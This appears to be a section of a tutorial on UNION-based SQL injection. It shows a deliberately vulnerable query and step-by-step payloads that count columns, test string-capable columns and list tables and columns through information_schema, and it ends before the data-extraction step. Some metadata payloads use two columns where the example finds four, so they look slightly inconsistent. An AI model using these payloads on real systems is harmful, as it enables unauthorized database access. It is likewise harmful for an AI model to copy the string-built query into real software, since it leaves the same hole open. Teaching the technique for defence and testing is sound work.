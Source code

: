 ### 2.2 union based sqli
how can we retrieve something located in another table?
In SQL, UNION combines the results of two or more SELECT statements into a single result set.
Requirements for UNION:

-Both queries must return the same number of columns.
-The data types of corresponding columns must be compatible.
how to perform the union based sqli?

Let's assume a vulnerable web application retrieves product details based on a product ID from a database:
```sql
SELECT * FROM items WHERE id = '${itemId}' and preRelease = false;
```
1. Determine the Number of Columns
there are two ways to do this:
m1. use the order by :
```sql
' ORDER BY 1--   -- No error? At least 1 column
' ORDER BY 2--   -- No error? At least 2 columns
...
' ORDER BY N--   -- Error occurs at N => Total columns = N-1
```
in our example the first 4 tests won't return any error, but the 5th will return an error.
we conclude that there are exactly 4 columns.
m2.use UNION SELECT:
```sql
' UNION SELECT NULL--        
' UNION SELECT NULL,NULL--   
' UNION SELECT NULL,NULL,NULL--  
```
since the number of columns must be the same for both queries, we will get errors until the number of columns (the number of 'NULL's) matches the one of the other query.
here , ' UNION SELECT NULL,NULL,NULL,NULL--   will work ,so 4 columns .
2. Identify Usable Columns
we substitute the NULLs with a string, for example:
```sql
' UNION SELECT 'a',NULL,NULL,NULL--  -- Test column 1
' UNION SELECT NULL,'a',NULL,NULL--  -- Test column 2
' UNION SELECT NULL,NULL,'a',NULL--  -- Test column 3
' UNION SELECT NULL,NULL,NULL,'a'--  -- Test column 4
```
Success (no error + string appears): The tested column accepts strings and can be used to extract data.

Error (e.g., type conversion failure): The column does not accept strings.

3. Extract Database Metadata
retrieve the table name from the database
```sql
' union SELECT table_name,NULL FROM information_schema.tables ;
```
retrieve column names from the table
```sql
' union SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'table_name' ;           
```
4. Extract Data
now we can extract the data from the table by using the column number
